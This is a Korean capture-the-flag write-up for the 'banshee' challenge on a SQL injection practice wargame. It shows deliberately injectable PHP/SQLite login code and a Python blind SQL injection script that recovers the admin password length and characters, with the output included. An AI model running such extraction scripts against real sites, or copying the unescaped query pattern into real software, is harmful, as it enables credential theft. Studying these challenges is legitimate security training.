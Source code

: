 # banshee

## 1. Code
```php
<?php
  include "./config.php";
  login_chk();
  $db = sqlite_open("./db/banshee.db");
  if(preg_match('/sqlite|member|_/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from member where id='admin' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['id']) echo "<h2>login success!</h2>";

  $query = "select pw from member where id='admin'"; 
  $result = sqlite_fetch_array(sqlite_query($db,$query));
  if($result['pw'] === $_GET['pw']) solve("banshee"); 
  highlight_file(__FILE__);
?>
```

## 2. Condition
- `sqlite member _`를 필터링 한다.   
- 1차적으로 get 파라미터 pw를 통해 로그인 가능 여부를 확인한다.   
- 2차적으로 get 파라미터 pw와 실제 admin pw와 비교하여 동일할 시 문제가 해결된다.   

## 3. Solution
python 스크립트를 이용해 blind-sqlinjection 한다.

a. pw의 길이
b. pw의 값


### a. Length of pw
변수명 | 값
---|---:
`pw` | ' or id='admin' and length(pw)=`i`-- 


비교값 `i`는 반복문을 통해 적당값(ex. 1~20)을 넣어준다.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php?\
            pw=' or id='admin' and length(pw)=%d-- " % i
    res = requests.get(url, cookies=cookie)
    
    if "login success!" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
```
---


### b. Value of pw

변수명 | 값
---|---:
`no` | ' or id='admin' and unicode(substr(pw,`i`,1))=`j`--    


sqlite에서는 `ascii`함수 대신 `unicode`를 이용하면 된다.   

a. Length of pw 의 코드에 추가해 보자.

```python
import requests

cookie = {'PHPSESSID' : '~~~~'}

for i in range(1,21):
    url = "https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php?\
            pw=' or id='admin' and length(pw)=%d-- " % i
    res = requests.get(url, cookies=cookie)
    
    if "login success!" in res.text:
        pw_len = i
        print("Length of pw : %d" % i)
        break
        
pw_value = ""
for i in range(pw_len):
    for j in range(33,127):
        url = "https://los.rubiya.kr/chall/banshee_ece938c70ea2419a093bb0be9f01a7b1.php?\
            pw=' or id='admin' and unicode(substr(pw,%d,1))=%d-- " % (i+1, j)
        res = requests.get(url, cookies=cookie)

        if "login success!" in res.text:
            pw_value += chr(j)
            print("pw(%d) : %s" % (i+1, pw_value))
            break
```

스크립트 결과는 다음과 같다.
```
Length of pw : 8
pw(1) : 0
pw(2) : 03
pw(3) : 031
pw(4) : 0313
pw(5) : 03130
pw(6) : 031309
pw(7) : 0313091
pw(8) : 0313091b
```
---



나온 pw 값을 최종적으로 대입해 보면 문제가 해결된다.

변수명 | 값
---|---:
`pw` | 0313091b